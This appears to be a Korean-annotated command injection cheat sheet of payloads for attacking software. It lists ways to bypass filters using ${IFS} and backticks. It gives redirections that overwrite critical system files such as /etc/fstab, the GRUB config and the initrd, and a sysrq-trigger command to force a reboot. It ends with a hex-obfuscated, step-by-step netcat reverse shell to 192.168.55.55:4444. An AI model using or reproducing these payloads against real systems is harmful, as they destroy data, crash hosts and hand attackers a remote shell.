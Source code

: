 # COMMAND INJECTION
공백 우회  
|/usr/bin/touch${IFS}/opt/test_injection  

---------------------------------------------------
and, or ,; 우회  

``id>/opt/test_injection``  

--------------------------------------
라다이렉션만을 이용하여 시스템 파괴  

id>/lib/modules/*/kernel/drivers/usb/storage  
id>/etc/fstab  
id>/etc/mtab  
id>/etc/inittab  
id>/boot/grub/grub.cfg  
id>/boot/initrd.img-$(uname -r)  
id>/etc/systemd/  
echo 'b'>/proc/sysrq-trigger  
<<<b>/proc/sysrq-trigger  
root일 경우만 덮어씌울수있음.  

--------------------------------------------  
;sleep 5 # 해당 명령어가 먹힐 경우 리버스tcp 가능  
;mkfifo${IFS}/opt/f;  
;printf${IFS}'nc\x20192.168.55.55\x204444'>/opt/b;  
;printf${IFS}'\x20</opt/f\x7Cbin/sh>/opt/f'>/opt/c;  
;cat${IFS}/opt/b${IFS}/opt/c>/opt/t;  
;chmod${IFS}777${IFS}/opt/t;  
;./opt/t;  

